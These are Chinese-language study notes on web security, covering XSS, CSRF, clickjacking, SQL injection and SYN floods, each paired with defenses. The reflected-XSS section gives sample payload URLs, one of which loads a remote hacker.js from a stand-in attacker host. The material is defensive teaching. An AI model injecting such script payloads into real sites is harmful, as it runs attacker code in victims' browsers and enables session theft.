 #### 参考链接：https://blog.fundebug.com/2019/02/01/details-about-6-web-security/

## XSS（跨站脚本攻击）
- XSS的原理是攻击者往Web页面里插入恶意脚本，
#### 攻击类型
1. 存储型
- 将恶意脚本提交到数据库，然后从数据库中取出拼接到HTML中执行，
- 原因是没有做好过滤；
- 比较常见的场景是，黑客写下一篇包含有恶意JavaScript代码的博客文章，文章发表后，所有访问该博客的用户，都会在他们的浏览器中执行这段恶意js代码。
- 防御：输入输出过滤，转义；

2. 反射性
- 常见于通过URL传递参数，需要诱导用户打开恶意网站，然后运行恶意脚本，

```JavaScript
http://x.x.x.x:8080/dosomething?message="<script src="http://www.hacktest.com:8002/xss/hacker.js"></script>"

http://localhost/test.php?param=<script>alert(/xss/)</script>
```
- 防御措施： 对输入进行检查，对参数进行转义

3. DOM型XSS攻击
- 也需要执行恶意代码，不过是由前端输出，用domAPI

#### 其他的防范措施
1. cookie设置HTTP-only： 禁止脚本读取cookie，防止脚本冒充用户提交危险操作
2. HTTP头部设置，或者前端meta标识，只允许加载同域下的资源；

## CSRF（跨站请求伪造）
- 访问第三方恶意网站，它利用用户已登录的身份，在用户毫不知情的情况下，以用户的名义完成非法操作。
- 防御
1. SameSite： 设置Cookie的SameSite属性，不让cookie随着跨站请求发送
2. referer： http头部字段，包含请求源，服务端可以对其进行验证，是否是来自自己页面的请求
3. token
- token在用户登录后存放于session或者cookie中，然后在每次请求时服务器取出token，并与本次请求中的token进行比对；
4. 验证码
- 很有效的遏制CSRF攻击，但降低了用户体验；

#### 点击劫持
- 进入第三方网站，而第三方网站通过iframe引入了某网站的内容，并设置为透明，是一种UI欺骗手段
防御： http响应头设置X-frame-options，禁止页面通过iframe的方式展示

#### SQL注入
- 通过输入（例如表单）参数，拼接在sql语句中，导致了sql漏洞；
- 防范： 严格限制用户的数据库的操作权限，减少对数据库的危害
- 对sql语句转义，或者编码转换
- sql预编译，sql的结构不会发生改变，传入的参数只会被当做字符串后面的参数

#### SYN攻击
- 发生在三次握手阶段，攻击者伪造大量ip地址，向服务器SYN包。
- 由于是伪造的ip地址，使得服务器需要不断重发直至超时，这些SYN包长时间占用半连接队列，导致正常的SYN包被舍弃，造成网络拥塞甚至系统瘫痪；
- 防范：增加最大半连接数，缩短超时时间；
